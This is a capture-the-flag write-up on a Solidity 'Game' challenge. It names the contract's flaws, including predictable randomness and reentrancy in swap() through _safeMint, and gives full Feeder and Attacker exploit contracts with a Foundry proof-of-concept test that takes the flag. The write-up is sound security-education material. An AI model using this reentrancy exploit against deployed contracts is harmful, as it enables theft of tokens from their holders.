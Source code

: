 # Game

## Challenge

The Game.sol is deployed with the flagHolder holding an apparently unbeatable deck with perfect Mons.

Your mission is to obtain the flag: i.e. game.flagHolder() should return an address that you control


## Solution

### Setup
In the original Version, the contract was deployed on Rinkeby and you should solve the challenge by forking Rinkeby. Unfortunately, Rinkeby is not really in use anymore so I decided on developing my setup for the challenge using foundry. It can be found in the repo as POC_raw.sol. 

### Analysis

#### Bad Randomness
The first vulnerability I found is that you can exactly predict the stats of your mon, as the randomness is only derived from block.number and some other values that we know. So we can just keep increasing the block.number by waiting until we get the perfect values, which we can calculate ourselves.

#### Inefficient indexInDeck()
The loop in indexInDeck doesn't break when it finds the id inside the decks array. This is not that much of a problem as there are only 3 indexes. The bigger problem is, that in case of finding nothing it returns 0, which could also be a valid index.

#### ForSale not removed
The true value in forSale() stays set after the swap and doesn't get reset to 0. So one has to always trade his traded card after swapping, as this can't even be reset manually.

#### Reentrancy in swap()
There is a possible reentrancy attack introduced by the _safeMint() functions in the swap() function. Both _safeMint() functions allow for reentrancy, as there is no reentrancyGuard deployed. 


### Attacks
At first, I thought just generating 3 supermons would be enough to solve this chal. Unfortunately in this case you still lose all the fights, as you need to have a higher speed value. 

My next idea was to exploit the potential reentrancy in _safeMint() to loan myself 6 NFTS and be able to just lose 3 and still have a bigger balance than the other one. The "flash loan" exploiting the 2 _safeTransfers did actually work pretty well. Unfortunately, I ran into the issue that my first 3 NFTs were burned during the fight and I was not able to return the first 3 I used to swap for the following ones.

Further improving upon my reentrancy plan I had the idea, that as the forSale value stays set after the fight, we could swap our newly receive NFTs with the 0x0 address to get the right ids back using the commands:
```solidity
game.swap(address(0), 12, 3);
game.swap(address(0), 13, 4);
game.swap(address(0), 14, 5);
```
Unfortunately, this also didn't work as ERC721 includes an assert that reverts in case of a transfer to the 0 address.

### Exploit
Finally, I got an idea of how to solve the challenge. I could exploit the reentrancy between both safeMint functions, to transfer all my NFTs out (knowing that I will get one back for them later), and then as soon as all 3 are gone call join() again to get 3 new ones. As 3 would still not be enough, because the win function only changes if we have more NFTs in our balance than the flag holder (3 get destroyed during the fight so we then also have 3 left), we need to do this 2 times to have more left, even after losing 3. 

To exploit this I developed 2 contracts. A feeder account is used for storing our NFTs while we want to get new ones and an Attacker contract to facilitate the whole attack and claim the flag in the end.

Feeder:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.12;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "./Game.sol";
import "./Attacker.sol";

contract Feeder is IERC721Receiver
{
    Game public game;
    Attacker atk; 
    constructor(address _game)
    {
        atk = Attacker(msg.sender);

        game = Game(_game);
        game.join();

        if (game.totalSupply() == 9)
        {
            game.putUpForSale(6);
            game.putUpForSale(7);
            game.putUpForSale(8);
        }
        else if (game.totalSupply() == 12)
        {
            game.putUpForSale(9);
            game.putUpForSale(10);
            game.putUpForSale(11);
        }
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4)
    {
        atk.getNext();
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }
}
```


Attacker:
```solidity 
// SPDX-License-Identifier: MIT
pragma solidity 0.8.12;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "./Game.sol";
import "./Feeder.sol";

contract Attacker is IERC721Receiver
{
    Game public game;
    Feeder feed1;
    Feeder feed2;
    uint256 nfts_sent = 0;

    constructor(address _game)
    {
        game = Game(_game);

        game.join();

        feed1 = new Feeder(_game);
        feed2 = new Feeder(_game);
    }

    function getEmAll() public
    {
        game.swap(address(feed1), 3, 6);
    }

    function getNext() public
    {
        nfts_sent++;
        if(nfts_sent == 3)
        {
            game.join();
        }
        else if (nfts_sent == 6)
        {
            game.join();
        }

        if (nfts_sent < 3)
        {
            game.swap(address(feed1), 3+nfts_sent, 6+nfts_sent);
        } 
        else if (nfts_sent < 6)
        {
            game.swap(address(feed2), 9+nfts_sent, 6+nfts_sent);
        }
    }

    function fightEmAll() public
    {
        game.fight();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4)
    {
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }
}
```

### Finished POC


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../lib/forge-std/src/Test.sol";
import "../src/Game.sol";
import "../src/Attacker.sol";

contract Hack is Test {
    Game game;

    address bigBoss = makeAddr("bigBoss");
    address hacker = makeAddr("hacker");
    address hacker2 = makeAddr("hacker2");
    uint blockGasLimit = 120000;

    function setUp() public {
        //Deal some money to everyone
        vm.deal(bigBoss, 1 ether);
        vm.deal(hacker, 1 ether);

        vm.startPrank(bigBoss);
        //Deploy the game contract
        game = new Game();
        vm.stopPrank();
    }

    function test_attack() public {
        vm.startPrank(hacker);

        Attacker atk = new Attacker(address(game));

        //get 9 mons
        atk.getEmAll();

        //fight to make the atk contract the flag holder
        atk.fightEmAll();

        vm.stopPrank();

        assertEq(game.flagHolder(), address(atk));
    }
}
```